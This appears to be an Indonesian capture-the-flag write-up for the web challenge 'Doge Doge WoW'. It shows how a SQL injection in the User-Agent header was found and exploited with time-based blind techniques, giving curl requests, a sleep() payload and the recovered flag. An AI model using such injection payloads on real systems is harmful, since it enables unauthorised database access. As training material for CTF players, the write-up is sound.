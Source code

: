 # __ASGama CTF__ 
## _Doge Doge WoW_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Web | 200 | l0l

**Description:** 

> http://ctf.asgama.web.id:45001/
>

### Doge Doge WoW
Tidak ada clue tentang apa soal ini, jadi lakukan sedikit recon.

Tampilan awal web  
![main](./main.png)

Ketika dicek source codenya ada sebuah komentar:
```html
<!-- Dear admin, setiap reload exec query: INSERT into log (uagent) values ('$useragent')  -->
```

Jadi sepertinya terdapat celah SQL Injection dengan inject pada user agent. Maka kita coba lakukan test injeksi pada user agent  
`curl -vA "'" http://ctf.asgama.web.id:45001/`

Hasilnya:  
```html
<b>Fatal error</b>:  Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''')' at line 1 in /checkflag/index.php:20
```

Benar bahwa ada celah SQL Injection di sini. Sekarang permasalahannya adalah bagaimana memanfaatkan celah ini sementara tidak ada text yang diprint. Blind SQLi.

Query yang dijalankan adalah sebagai berikut  
```sql
INSERT into log (uagent) values ('$useragent')
```

Dengan asumsi tidak ada filter, saya coba inject string :  
```sql
'+(select sleep(5))+'
```

Sehingga query menjadi  
```sql
INSERT into log (uagent) values (''+(select sleep(5))+'')
```

Request :  
`curl -vA "'+(select sleep(5))+'" http://ctf.asgama.web.id:45001/`  
Setelah submit request, benar saja terjadi delai cukup lama. Berarti service ini vulnerable terhadap Time Based Blind SQL Injection.

Selebihnya tinggal susun payload.

1. Cari nama table  
2. Cari nama kolom  
3. Isi kolom


### Payload
[solve.py](./solve.py)

### Result
```
Finding table name
bendera,log
Found Table Name : bendera,log

Masukkan nama tabel : bendera
Finding column name in bendera
id,flag
Found Column Name : id,flag

Masukkan nama column : flag
CadosCTF{Header_SQL_Injection}
Found : CadosCTF{Header_SQL_Injection}
```

### Flag
CadosCTF{Header_SQL_Injection}